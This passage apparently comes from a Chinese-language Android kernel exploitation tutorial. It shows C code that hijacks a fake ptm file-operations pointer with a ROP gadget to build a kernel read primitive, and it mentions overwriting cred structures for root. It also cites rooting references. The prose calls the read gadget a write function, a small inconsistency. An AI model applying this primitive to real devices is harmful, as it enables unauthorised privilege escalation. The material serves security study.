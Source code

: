 
同理，当我们用 ROP_READ 覆盖这个位置时，可以得到一个内核地址写函数。

```
/*
 * rop read
 * ffffffc000300060:       f9405440        ldr     x0, [x2,#168]
 * ffffffc000300064:       d65f03c0        ret
 */
#define ROP_READ                0xffffffc000300060

static int kernel_read_32(unsigned long addr, unsigned int *val)
`{`
        int ret;
        unsigned long arg;

        *(unsigned long*)(fake_ptm_fops + 12 * 8) = ROP_READ;
        arg = addr - 168;
        errno = 0;
        ret = ioctl_syscall(__NR_ioctl, fake_fd, 0xdeadbeef, arg);
        *val = ret;
        return 0;
`}`
```

最后，用封装好的内核读写函数，修改内核的 cred 等结构体完成提权



**参考**



[**android_run_root_shell**](https://github.com/android-rooting-tools/android_run_root_shell)

[**xairy**](https://github.com/xairy/linux-kernel-exploitation)

[**New Reliable Android Kernel Root Exploitation Techniques**](http://powerofcommunity.net/poc2016/x82.pdf)
